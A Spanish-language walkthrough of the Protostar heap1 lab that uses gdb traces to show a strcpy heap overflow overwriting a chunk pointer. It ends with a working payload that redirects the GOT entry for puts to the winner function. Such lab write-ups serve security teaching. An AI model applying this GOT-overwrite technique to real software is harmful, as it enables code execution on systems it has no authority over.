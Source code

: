 # Heap buffer overflow

[heap1](#https://exploit.education/protostar/heap-one/)


Para entender esto es muy importante ver como funciona el [heap](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Estructura%20de%20un%20binario.md#el-heap)
Abrimos el binario por la parte del heap, analizandolo.

```console
(gdb) disas main
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    0x14, [esp]

(gdb) b *0x080484ce # Ponemos un breakpoint despues del primer malloc
(gdb) b *0x080484e8 # Tambien otros con los otros 3 mallocs y el strcy (0x080484fd, 0x08048517, 0x0804853d, 0x0804855a)
(gdb) run AAAABBBBCCCCDDDDEEEEFFFF 0000111122223333
(gdb) info proc map   
         0x804a000  0x806b000    0x21000          0           [heap]   # El heap está en  0x804a000

(gdb) define hook-stop
>x/64wx 0x804a000  # Vamos a observar como va evolucionando el heap
>end

# Primer malloc c9 -> ce
0x804a000:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000

# Segundo malloc e3 -> e8
0x804a000:      0x00000000      0x00000011      0x00000001      0x00000000
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00020fe1      0x00000000      0x00000000

(gdb) set $i1 = (struct internet*)0x804a008   # Tambien observaremos el struct u objeto "internet"

# Tercer malloc f8 -> fd
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a030:      0x00000000      0x00020fd1      0x00000000      0x00000000

(gdb) p *$i1   # internet = {priority = 1, name = 0x804a018 ""}
 
Cuarto malloc 12 -> 17
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x00000000
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

Strcpy 38 -> 3d
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x42424242
0x804a020:      0x43434343      0x44444444      0x45454545      0x46464646
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

(gdb) p *$i1 
$6 = {priority = 1, name = 0x804a018 "AAAABBBBCCCCDDDDEEEEt\227\004\b"}
```
Como se puede ver el strcpy ha empezado a escribir en  0x0804a018, pero al no acabarse (overflow), ha desbordado el chunk siguiente, en concreto el que 
correspondia al segundo objeto, la parte de nombre y que almacenaba la dirección donde se escribiría este (dada por el malloc). Por tanto colpasa con 
un SEGFAULT ya que la memoria "0x46464646" no existe (las "F")

Es decir, el primer argumento "AAAABBBBCCCCDDDDEEEEFFFF" acaba siendo "¿Donde escribir?" por ser taaan largo.

```console
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39

(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII 0000111122223333
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff8ad "0000111122223333") at strcpy.c:40
```
El segundo argumento por tanto es ¿que escribir? Y aquí es como podemos abusar de la [Global Offset Table](https://github.com/CUCUxii/Informatica/blob/main/Binarios/Estructura%20de%20un%20binario.md#global-offset-table)
> tabla donde estan las direcciones de las funciones, las escribe una funcion del sistema,

Podemos escribir nosotros la GOT con direccion de la funcion que nos de la gana ejecutar en lugar de la funcion buena. En este caso funcion winner
en vez de puts, el sistema se creera que la direccion que hay escrita es la de puts, no llamara a la funcion que escribe la de puts original y saltará
ahí.

```console
[cucuxii]:$ objdump -D ./heap1
08048494 <winner>:        # -> \x94\x84\x04\x08
[cucuxii]:$ gdb ./heap1
(gdb) disas main
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
(gdb) disas 0x80483cc
0x080483cc <puts@plt+0>:        jmp    *0x8049774   # -> \x74\x97\x04\x08

(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1657877687   # echo -ne -> sin salto de linea y formato bytes
```
En resumen hemos desbordado el primer del malloc de colocacion de datos para rellenar otro chunk y modificar su puntero hacia donde hemos querido.

